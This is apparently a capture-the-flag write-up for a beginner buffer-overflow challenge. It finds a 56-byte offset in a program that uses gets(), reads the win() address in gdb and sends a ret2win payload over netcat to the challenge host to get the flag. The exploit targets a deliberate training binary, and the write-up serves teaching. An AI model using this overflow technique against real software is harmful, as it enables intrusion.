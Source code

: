 Coming Soon!
**Please call 1-500-WIN to get the flag!**

> Category: Pwn
>
> You might have heard of buffer overflows, but do you know how to exploit them?
> 
> The goal of this challenge is to overwrite main's return pointer which is stored on the stack, with the address of the win() function. There are several good (and > bad) tutorials on how to do this online. Googeling for example ret2win or binary exploitation buffer overflow might be a good place to start.
> 
> nc io.ept.gg 30022

We are given a c-file (pwn2.c in this directory).
By looking at the **main**-function, we can see that the program uses gets(), which is vulnerable to a buffer overflow.
We also see that there is a function, **win**, which prints out the flag if we can get it to run.
We can overwrite the return address to return to the **win**-function, to print out the flag.


# Breaking the program  #
First we need to find out when the program breaks. We see that the buffer gets() writes into is 40 bytes. We try to write different amount of 'A's to find out exactly when the program breaks. 
```
python3 -c "print('A'*60)" | ./pwn2
Enter some text: 
Segmentation fault (core dumped)
```
We can see that the program seg-faults when we write 60 bytes. By trying some more we find out that the program seg-fauls at 57 bytes, but not 56. This means that at byte 57 we start overwriting the return address in EIP.

We must know the funciton-address of the win-function we want the program to run. We can use gdb to find the function-address.
We set a breakpoint in the program at the main function, and disassemble the win function.
```
> b main 
> run
> disass win
```
> 0x0000000000401314 <+0>:	endbr64 
> 0x0000000000401318 <+4>:	push   %rbp
> 0x0000000000401319 <+5>:	mov    %rsp,%rbp
> 0x000000000040131c <+8>:	sub    $0x110,%rsp

We see that the win-function has the address 0x401314, which is the value we want to write into the EIP-register.

We cannot write 401314 directly into the EIP-register, because we need padding (also endian notation). We can use pwntools to do the 64-bit padding and endian notation for use:
```
>>> from pwn import *
>>> p64(0x401314)
b'\x14\x13@\x00\x00\x00\x00\x00'
```
We now have the amount of 'A's to reach the point where we write over the EIP-register, we also have the address to write into that register. 
We combine the two together and get the following:

``` 
python3 -c "print('A'*56 + '\x14\x13@\x00\x00\x00\x00\x00')" | nc io.ept.gg 30022
```

We get out the flag:
> EPT{congratulations_y0u_win!}
